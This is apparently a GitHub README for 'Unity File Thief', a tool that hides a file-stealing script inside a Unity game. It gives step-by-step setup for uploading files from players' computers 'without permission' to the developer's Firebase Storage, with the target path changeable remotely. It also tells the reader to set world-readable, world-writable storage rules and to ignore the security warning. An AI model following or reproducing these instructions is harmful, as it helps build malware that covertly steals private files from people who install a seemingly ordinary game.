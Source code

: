 #🛠It's Updating ...🛠
# ⚠️You May Encounter Errors If You Use It.⚠️


# Unity File Thief
Capture the files of users who installed the Application or Game you created in Unity from an address on their computers without permission (or by asking) and store them on the cloud (Firebase). After collecting the file from the user, you can change the path via Firebase and pull different files.  


## Content
- [Basic Step by Step - Setup](#basic-step-by-step)
- [Başlık 2](#başlık-2)
- [Başlık 3](#başlık-3)

## Basic Step by Step
1- Prepare Unity For Project 


##

## Set Up
1- Open your new Unity Project  
**FOR FIREBASE**  
2- Go to : https://console.firebase.google.com/ , If you dont have any account, Sing Up  
3- Add new Project on firebase ; enter a name, Select default account for firebase  
4- Select Unity under the "Get started by adding Firebase to your app" text.  
5- Choose a register type.  
6- Download config file (2nd step) and SDK zip (3th step).  
7- Go to Your Project Console and open -> Build>Storage -> Get Started -> Next -> Done  
8- Under the "Storage" text, select Rules.  
9- Delete the texts of Rules File. And Copy and Paste that Rule :  
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
**TURN TO UNITY**  
10- Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)  
11- Add config file to that folder. (Config file in the 6th step of the set up)  
12- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages and drop to project panel on the unity  
13- Import all  
14- Create new GameObject and add fileThieff.cs to your GameObject  
**SET THE SCRIPT**  
15- Go to  Firebase Storage of the YourProject Panel again. There is a copy button Left side of the Upload file  
16- Click Copy button or copy that Url which starts with gs (example ->  gs://file-thied.appspot.com )  
17- Turn to our script. Find that code line "StorageReference storageRef = storage.GetReferenceFromUrl("gs://file-thied.appspot.com/").Child(storagePath);"  
18- Delete that part  ""gs://file-thied.appspot.com/"" and paste your Url  
19- Select the path which file you want to take. Dont get a folder, only file.  
20- Under the Start Method, Find UploadFile() Function and write path (example -> "C:\\aFile\\aText.txt" )  
21- Save the Code and Start Your Game.  
**GET RESULT**  
22- When the users open your game; If they have that file, Our game take its file.  
23- Files go to Storage. You can see the documents on that tab.  



## Set Up v2.0
&nbsp;&nbsp;1- Open your new Unity Project on Unity Hub   
<br>
<br>
**🛠️ SET FIREBASE REALTIME DATABASE & STORAGE FOR UNITY 🛠️**   
   
&nbsp;&nbsp;2- Go to : https://console.firebase.google.com/ . If you dont have any account, Sing Up   
&nbsp;&nbsp;3- Add new Project on Firebase Console (Don't need to enable "Google Analytics")     
&nbsp;&nbsp;4- Add the application to be used in the project panel you opened as Unity   
   
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img src="https://github.com/SabriACUN/Unity-File-Thief/assets/96339137/37fc2ca2-5789-4f6f-9de2-b81412b0fee8" width="250"/>

&nbsp;&nbsp;5- Choose the Register Type for Operating System (recommend : Android)   
&nbsp;&nbsp;6- Fill the first blank (com.company.appname) [ !! Not important what you write, Write according to the format ]   
&nbsp;&nbsp;7- Don't download "config file" for now. Next Button !   
&nbsp;&nbsp;8- Download Firebase Unity SDK (Zip) and Continue to Console.   
&nbsp;&nbsp;9- Open Sidebar ( If its closed )   
&nbsp;&nbsp;&nbsp;&nbsp;· Under the "Product Categories > Build > Storeage". Click "Get Started" 
&nbsp;&nbsp;&nbsp;&nbsp;· Start in production mode.   
10- Under the "Storage" text, select Rules. Delete the texts of Rules File and Copy and Paste that Rule : 
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
··· For NOW warning not important "Your security rules are defined as public, so anyone can steal, modify, or delete data in your database." ···    
11- Go to Sidebar and open Build again. Choose Realtime Database.   
&nbsp;&nbsp;&nbsp;&nbsp;· Create Database   
&nbsp;&nbsp;&nbsp;&nbsp;· You can open in Test Mode.
12- In the Sidebar there is a Settings Button. Click on it. Choose "Project Settings"   
&nbsp;&nbsp;&nbsp;&nbsp;· "General > Your apps" Download "google-services"   
<br>
<br>
**🛠️ SET UNITY FOR FIREBASE 🛠️** 
<br>
13- Go to Unity. Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)   
&nbsp;&nbsp;&nbsp;&nbsp;·Add config file to that folder (google-services)   
14- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages & FirebaseDatabase.unitypackage and drop to project panel on the Unity. and Import   
15- Create new GameObject and add fileThieff.cs & takeString.cs to your GameObject.    
[ -- For logs and errors that may be encountered, the log printing system is included in the codes, so you can delete it if you want or assign the necessary texts to the desired places as a reference. -- ]  
**
<br>
<br>

**SET THE SCRIPT FOR YOUR OWN DATABASE**   
<br>

16- Go to Firebase Project > Storage. Copy Url which starts with gs (example ->  gs://file-thief.appspot.com )   
17- Turn to our script. Find that code line :   
<pre>
"StorageReference storageRef = storage.GetReferenceFromUrl("gs://file-thied.appspot.com/").Child(storagePath);" 
</pre>
&nbsp;&nbsp;&nbsp;&nbsp;· Delete that part  ""gs://file-thied.appspot.com/"" and paste your Url  
